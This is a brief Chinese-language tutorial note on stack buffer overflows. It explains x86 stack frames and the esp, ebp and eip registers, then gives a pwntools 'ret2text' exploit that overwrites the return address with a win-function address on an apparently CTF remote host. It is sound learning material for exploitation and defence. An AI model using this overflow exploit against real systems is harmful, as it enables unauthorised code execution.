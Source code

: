 ## 栈溢出
函数调用的栈帧
![image](https://pic3.zhimg.com/80/v2-8d5649c36458080223084d77abbd554a_1440w.webp)

函数状态主要涉及三个寄存器－－esp，ebp，eip。esp 用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化。ebp 用来存储当前函数状态的基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置。eip 用来存储即将执行的程序指令的地址，cpu 依照 eip 的存储内容读取指令并执行，eip 随之指向相邻的下一条指令，如此反复，程序就得以连续执行指令

调用函数时栈的变化:
	被调用函数（callee）的参数按照逆序依次压入栈内 (arg n-arg 1)
	将调用函数（caller）进行调用之后的下一条指令地址作为返回地址压入栈内 (return addr)
	将调用函数的基地址（ebp）压入栈内，并将当前栈顶地址传到 ebp 寄存器内 (ebp)
	将被调用函数的局部变量压入栈内 (local var)

*python*
```python
from pwn import *
#local
#sh = process("./ret2text")
#remote
sh=remote('3.110.66.92',31865)
win = 0x8049182
sh.sendline(b'A'*40 + p32(win))
sh.interactive()
```



